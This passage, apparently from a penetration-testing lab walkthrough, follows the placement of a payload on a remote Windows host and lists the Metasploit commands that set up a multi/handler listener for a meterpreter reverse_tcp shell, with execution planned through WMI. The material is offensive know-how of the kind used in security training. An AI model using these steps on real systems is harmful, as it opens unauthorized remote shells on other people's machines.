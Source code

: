     ![A screenshot depicts the results of the command.](Images/put.png)

    - Now that the payload is on the remote system, we can execute it using the WMI module in Metasploit. Before doing that, though, we need to ensure that Metasploit is listening for our payload to execute.

6. In Metasploit, select the `exploit/multi/handler` module, and configure it to match the payload settings by using the following commands:

    - `use exploit/multi/handler`

    - `set payload windows/meterpreter/reverse_tcp`

    - `set LHOST [IP ADDRESS]`

    - `set LPORT 4444`

    - `exploit -j`

    ![A screenshot depicts running these commands.](Images/multihandler.PNG)
